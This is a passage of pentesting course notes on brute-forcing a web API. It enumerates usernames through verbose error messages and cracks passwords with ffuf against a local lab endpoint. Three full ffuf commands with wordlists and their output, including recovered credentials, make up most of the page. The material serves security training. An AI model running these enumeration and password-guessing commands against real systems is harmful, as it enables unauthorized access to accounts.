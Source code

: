 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Brute Force

## Example

> _The below example is based on_ [_this_](https://academy.tcm-sec.com/p/hacking-apis) _TCM Security course._

We might be able to enumerate valid usernames via verbose error messages (Figure 1).

<figure><img src="../../../../.gitbook/assets/bfa_1.png" alt=""><figcaption><p>Figure 1: Enumerating a valid username based on verbose error messages.</p></figcaption></figure>

When a valid username is obtained, we can try brute-forcing its password using Burp's Intruder (Figure 2) or CLI tools, such as [`ffuf`](../../../../tools/web/dirbusting/fuff.md).

<figure><img src="../../../../.gitbook/assets/bfa_2.png" alt=""><figcaption><p>Figure 2: Brute-forcing <code>admin</code>'s password with Intruder.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Brute-forcing admin's password with ffuf
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/rockyou:PASS -X POST -H 'Content-Type: application/json' -d '{"email":"admin","password":"PASS"}' -c -fc 401

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost:9000/v1/verify.php
 :: Wordlist         : PASS: /usr/share/wordlists/rockyou
 :: Header           : Content-Type: application/json
 :: Data             : {"email":"admin","password":"PASS"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 401
________________________________________________

ramirez                 [Status: 200, Size: 78, Words: 6, Lines: 1, Duration: 0ms]
```
{% endcode %}

Based on the above verbose error message (`Invalid password`) we can try to enumerate more valid users (Figure 3), and if other users are found, we can repeat the above process to enumerate their passwords (Figure 4).

<figure><img src="../../../../.gitbook/assets/bfa_3.png" alt=""><figcaption><p>Figure 3: Fuzzing for other valid users based on the verbose error message.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Fuzzing for other valid users based on the verbose error message.
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt:USER -X POST -H 'Content-Type: application/json' -d '{
"email":"USER","password":"admin"}' -c -mr "Invalid password!"

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost:9000/v1/verify.php
 :: Wordlist         : USER: /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Content-Type: application/json
 :: Data             : {"email":"USER","password":"admin"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: Invalid password!
________________________________________________

jeremy                  [Status: 401, Size: 31, Words: 2, Lines: 1, Duration: 0ms]
admin                   [Status: 401, Size: 31, Words: 2, Lines: 1, Duration: 265ms]
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/bfa_4.png" alt=""><figcaption><p>Figure 4: Fuzzing <code>jeremy</code>'s password with Intruder.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Same as above with ffuf
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt:PASS -X POST -H 'Content-Type: application/json' -d '{"email":"jeremy","password":"PASS"}' -c -mc 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost:9000/v1/verify.php
 :: Wordlist         : PASS: /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt
 :: Header           : Content-Type: application/json
 :: Data             : {"email":"jeremy","password":"PASS"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

07061955                [Status: 200, Size: 78, Words: 6, Lines: 1, Duration: 0ms]
```
{% endcode %}
